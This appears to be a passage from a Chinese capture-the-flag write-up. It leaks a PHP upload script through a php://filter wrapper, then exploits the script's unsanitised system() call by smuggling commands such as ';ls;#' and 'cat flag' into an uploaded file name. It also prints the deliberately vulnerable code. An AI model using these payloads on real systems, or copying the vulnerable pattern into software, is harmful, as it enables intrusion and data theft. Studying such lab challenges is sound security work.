 ![在这里插入图片描述](https://img-blog.csdnimg.cn/d9690d0a93e1434b816d790af329f8da.png)

上传后显示图像base64内容，注意到上传点的文件名

`/user.php?page=php://filter/convert.base64-encode/resource=upllloadddd`
```php


<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "<img src='data:image/png;base64,".$picdata."'></img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

注意到这么一段`$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");`
这里文件名可以拼接命令执行
`2.jpg;ls;#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/ee2eae5afb774839b08b42947c659bb8.png)
输入`ls /`发现被替换为空
![在这里插入图片描述](https://img-blog.csdnimg.cn/13d5a8eaa22a40a0893da7247a570138.png)
`2.jpg;cd ..;ls;#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/ec389c1dbe1e4a32a19923a82d43088c.png)`2.jpg;cd ..;cat flag_233333;#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/ee84897cf77c42f8a44a3ebd776a4675.png)

# [GYCTF2020]Ez_Express【留坑-nodejs原型链污染】
>2023.9.28留坑
